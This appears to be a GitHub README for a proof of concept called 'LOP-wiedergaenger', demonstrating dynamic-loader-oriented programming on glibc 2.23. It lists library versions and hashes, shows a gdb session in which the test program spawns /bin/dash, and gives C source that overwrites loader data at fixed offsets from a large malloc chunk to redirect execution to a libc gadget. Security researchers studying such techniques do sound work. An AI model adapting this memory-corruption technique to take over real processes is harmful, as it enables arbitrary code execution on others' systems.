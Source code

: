 # LOP-wiedergaenger
Dynamic Loader Oriented Programming - Wiedergaenger PoC


$ apt-show-versions libc6      
libc6:amd64/xenial-security 2.23-0ubuntu10 uptodate
libc6:i386/xenial-security 2.23-0ubuntu10 uptodate

$ apt-show-versions libc-bin
libc-bin:amd64/xenial-security 2.23-0ubuntu10 uptodate
libc-bin:i386 not installed


$ dpkg -s libc-bin
Package: libc-bin
Essential: yes
Status: install ok installed
Priority: required
Section: libs
Installed-Size: 3479
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: foreign
Source: glibc
Version: 2.23-0ubuntu10
Depends: libc6 (>> 2.23), libc6 (<< 2.24)
Suggests: manpages
Conffiles:
 /etc/bindresvport.blacklist 4c09213317e4e3dd3c71d74404e503c5
 /etc/default/nss d6d5d6f621fb3ead2548076ce81e309c
 /etc/gai.conf 28fa76ff5a9e0566eaa1e11f1ce51f09
 /etc/ld.so.conf 4317c6de8564b68d628c21efa96b37e4
 /etc/ld.so.conf.d/libc.conf d4d833fd095fb7b90e1bb4a547f16de6
Description: GNU C Library: Binaries
 This package contains utility programs related to the GNU C Library.
 .
  * catchsegv: catch segmentation faults in programs
  * getconf: query system configuration variables
  * getent: get entries from administrative databases
  * iconv, iconvconfig: convert between character encodings
  * ldd, ldconfig: print/configure shared library dependencies
  * locale, localedef: show/generate locale definitions
  * tzselect, zdump, zic: select/dump/compile time zones
Homepage: http://www.gnu.org/software/libc/libc.html
Original-Maintainer: GNU Libc Maintainers <debian-glibc@lists.debian.org>

$ dpkg -s libc6   
Package: libc6
Status: install ok installed
Priority: required
Section: libs
Installed-Size: 10953
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: same
Source: glibc
Version: 2.23-0ubuntu10
Replaces: libc6-amd64
Depends: libgcc1
Suggests: glibc-doc, debconf | debconf-2.0, locales
Breaks: hurd (<< 1:0.5.git20140203-1), libtirpc1 (<< 0.2.3), locales (<< 2.23), locales-all (<< 2.23), lsb-core (<= 3.2-27), nscd (<< 2.23)
Conffiles:
 /etc/ld.so.conf.d/x86_64-linux-gnu.conf 593ad12389ab2b6f952e7ede67b8fbbf
Description: GNU C Library: Shared libraries
 Contains the standard libraries that are used by nearly all programs on
 the system. This package includes shared versions of the standard C library
 and the standard math library, as well as many others.
Homepage: http://www.gnu.org/software/libc/libc.html
Original-Maintainer: GNU Libc Maintainers <debian-glibc@lists.debian.org>




md5sum /lib/x86_64-linux-gnu/ld-2.23.so
f5ebf0bbc32238922f90e67cb60cdf7e  /lib/x86_64-linux-gnu/ld-2.23.so


$ ldd --version
ldd (Ubuntu GLIBC 2.23-0ubuntu10) 2.23
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.



$ md5sum /lib/x86_64-linux-gnu/libc.so.6
5d8e5f37ada3fc853363a4f3f631a41a  /lib/x86_64-linux-gnu/libc.so.6

$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu10) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.4.0 20160609.
Available extensions:
	crypt add-on version 2.1 by Michael Glad and others
	GNU Libidn by Simon Josefsson
	Native POSIX Threads Library by Ulrich Drepper et al
	BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.




GDB

 gdb ./test           
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./test...done.
(gdb) b main
Breakpoint 1 at 0x400535: file test.c, line 8.
(gdb) r
Starting program: /home/mk/wiedergaenger/test 
warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).


Breakpoint 1, main (argc=1, argv=0x7fffffffdb68) at test.c:8
8	  ptr = malloc(0x200000);
(gdb) cont
Continuing.
process 14480 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).

H�5C8: 1: ^e��: not found
[Inferior 1 (process 14480) exited with code 0177]
(gdb) 


Source:


#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv)
{
  unsigned char *ptr;
  ptr = malloc(0x200000);


  unsigned long base = 0x7f2158;


  *(unsigned long long *)&ptr[base] = 0x7ffff7a52216-0x4002b8;

  ptr[base + 0xa8] = 0xb8;

  ptr[base + 0x120] = 0xe3;


  return 0;
}

